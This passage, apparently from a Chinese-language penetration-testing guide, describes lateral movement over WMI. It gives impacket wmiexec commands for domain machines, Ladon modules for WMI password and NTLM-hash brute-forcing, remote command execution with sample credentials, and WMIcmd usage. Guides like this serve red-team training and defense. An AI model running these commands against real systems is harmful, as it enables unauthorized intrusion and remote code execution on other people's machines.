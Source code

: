 使用hash远程工作组机器

使用hash远程域机器

> ***注意** ：wmiexec 使⽤445端⼝传回显。*

**impacket-wmiexe.exe**

    
    
    wmiexec.exe test1.com/win16:win16@10.10.0.10 -dc-ip 10.10.0.10
    

使用账号密码远程域机器

**Ladon**

模块功能 | 目标端口 | 目标系统 | 使用教程  
---|---|---|---  
WMI爆破 | 135 | Windows | [教程](http://k8gege.org/Ladon/WmiScan.html)  
WMI-NtlmHash爆破 | 135 | Windows | [教程](http://k8gege.org/Ladon/WmiScan.html)  
WmiExec | 135 | Windows | 只需要135端口通过注册表回显，不依赖445、Powershell  
WmiExec2 | 135 | Windows | 只需135端口通过注册表回显，但依赖Powershell  
  
**WMI爆破(135端口)**

> ***注意** ：请提前在ladon.exe目录下准备好user.txt和pass.txt。*
    
    
    ladon.exe 192.168.8.192/24 WmiScan
    

**WMI-NtlmHash爆破（135端口）**

    
    
    ladon.exe  192.168.8.192 WmiHashScan
    

**WmiExec**

    
    
    ladon.exe wmiexec 192.168.8.192 Administrator win@123 cmd whoami
    

Ladon wmiexec成功执行命令

**WmiExec2**

    
    
    ###在工作组尝试执行命令
    ladon.exe wmiexec2 192.168.8.192 Administrator win@123 cmd whoami
    ###在域内尝试执行命令
    ladon.exe wmiexec2 10.10.0.10 test1\Administrator win@123 cmd whoami
    

Ladon wmiexec2成功在工作组执行命令

Ladon wmiexec2成功在域内执行命令

**WMIcmd**

> ***注意** ：WMIcmd需要.NET4.5.2的支持。*
    
    
    WMIcmd.exe -h IP -d hostname -u localadmin -p theirpassword -c "command"
    